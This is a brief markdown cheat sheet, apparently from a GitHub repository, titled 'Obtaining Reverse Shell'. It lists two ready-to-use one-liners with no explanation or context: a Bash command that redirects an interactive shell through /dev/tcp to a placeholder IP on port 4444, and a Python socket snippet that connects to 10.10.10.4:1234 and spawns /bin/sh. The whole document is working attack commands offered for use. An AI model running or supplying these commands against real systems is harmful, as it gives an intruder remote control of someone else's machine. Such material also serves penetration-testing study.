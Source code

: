 # Obtaining Reverse Shell

1. **Bash**
   
        bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'

2. **Python**

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.4",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

